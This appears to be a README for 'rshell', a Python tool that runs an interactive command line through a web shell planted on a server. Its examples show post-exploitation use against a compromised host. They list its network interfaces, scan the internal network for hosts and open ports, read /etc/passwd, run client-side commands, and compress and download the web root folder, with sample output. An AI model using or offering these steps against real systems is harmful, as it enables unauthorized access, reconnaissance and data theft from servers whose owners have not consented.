 
# rshell
## Interactive command line interpreter using a web shell

###Usage:
	python rshell.py -u shell_url [-p proxy:port]
####Examples:
	* python rshell.py -u http://127.0.0.1/shell.php

		#Get the ips assigned to the server interfaces
		rshell:~ get_local_ips
		{'127.0.0.1': {'mask_bits': 8}, '192.168.1.8': {'mask_bits': 24}}

		#Find hosts in the server internal network
		rshell:~ find_hosts

		IP: 192.168.1.3
		Host name: 
 
		IP: 192.168.1.2
		Host name: 
		 
		IP: 192.168.1.1
		Host name: 
		23/tcp    open  telnet
		53/tcp    open  domain
		80/tcp    open  http
		52869/tcp open  unknown
		 
		IP: 192.168.1.8
		Host name: 
		22/tcp  open  ssh
		80/tcp  open  http
		111/tcp open  rpcbind
		139/tcp open  netbios-ssn
		445/tcp open  microsoft-ds

		#Run a command on the server side
		rshell:~ cat /etc/passwd

		#Run a command on the client side
		rshell:~ !command_in_client_side

		#Compress and download a folder
		rshell:~ dwfolder /var/www/html

	* python rshell.py -u http://127.0.0.1/shell.php -p proxy:port
